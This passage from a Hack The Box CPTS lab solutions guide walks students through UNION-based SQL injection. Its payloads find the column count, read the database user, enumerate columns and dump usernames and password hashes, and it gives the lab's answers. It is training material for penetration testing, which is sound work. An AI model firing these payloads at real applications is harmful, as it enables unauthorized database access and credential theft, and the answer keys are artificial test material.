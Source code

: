 Code: sql

```sql
' UNION SELECT 1,2,3,4-- -
```

![[HTB Solutions/CPTS/z. images/76713cf3a657ba6018e17c6030d04403_MD5.jpg]]

Since there are four columns, students need to inject the `user()` function in either the 2nd, 3rd, or 4th column:

Code: sql

```sql
' UNION SELECT 1,user(),3,4-- -
```

![[HTB Solutions/CPTS/z. images/88b52f4f4700aaff337f5358fbd9e996_MD5.jpg]]

Answer: `root@localhost`

# Database Enumeration

## Question 1

### "What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?"

Since students are given the names of the database and the table, they only need to enumerate the names of columns within the `users` table:

Code: sql

```sql
foo' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
```

![[HTB Solutions/CPTS/z. images/75ccea008f77b8b98958b415ef695509_MD5.jpg]]

At last, students need to use the `UNION` injection statement to fetch the `username` and `password` columns from the `users` table within the `ilfreight` database:

Code: sql

```sql
foo' UNION SELECT 1,username,password,4 FROM ilfreight.users-- -
```

![[HTB Solutions/CPTS/z. images/f0e300ea9d2943babca23c0c047a878c_MD5.jpg]]

Answer: `9da2c9bcdf39d8610954e0e11ea8f45f`

# Reading Files
